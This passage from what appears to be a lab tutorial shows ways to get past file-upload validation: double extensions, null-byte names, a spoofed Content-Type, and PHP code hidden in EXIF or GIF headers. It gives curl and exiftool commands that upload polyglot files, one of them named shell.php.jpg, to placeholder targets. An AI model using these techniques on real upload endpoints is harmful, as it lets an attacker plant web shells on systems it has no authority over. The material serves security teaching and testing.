 Idea: naming tricks to bypass naive extension checks:

- `shell.php.jpg`
    
- `safe.png.php`
    
- `image.jpg%00.php` _(older null-byte issues; rarely works on modern stacks)_
    

Example create + curl upload (multipart):

```bash
# create small file
printf "GIF89a<?php /*lab*/ echo 'ok'; ?>" > shell.php.jpg

# upload with curl (set filename in form)
curl -s -F "file=@shell.php.jpg;filename=shell.php.jpg" http://<TARGET>/<UPLOAD_ENDPOINT>
```

Notes:

- Modern frameworks often sanitize the final stored extension or rename files, so double extension may fail.
    

### 3) Content-Type header tampering (client side)

Idea: set `Content-Type: image/png` while sending a file that contains code.

```bash
curl -s -X POST -H "Content-Type: multipart/form-data" \
  -F "file=@shell.php;type=image/png;filename=shell.png" \
  http://<TARGET>/<UPLOAD_ENDPOINT>
```

Also try sending the `file` without an extension but with an explicit `filename=` that looks valid.

### 4) EXIF / metadata hiding (store payload in metadata)

Idea: place the payload into EXIF fields or in APPn segments of JPEG. Some image parsers ignore metadata when verifying image signature.

Tools:

- `exiftool` to add custom EXIF tags:
    

```bash
# attach test marker to EXIF comment (lab only)
exiftool -Comment="<?php /*lab*/ echo 'ok'; ?>" good.jpg
```

Then upload `good.jpg`. If the app later writes EXIF into accessible file and an include occurs, it may matter. (Mostly useful in certain image processors or misconfigured includes.)

### 5) SVG (textual image attack surface)

SVG is XML/text and often allowed as images — it can contain scripts or data URIs. In labs, you can embed payloads in SVG; in real webapps, SVG handling should be strict.

Create a minimal SVG (lab; non-malicious example):

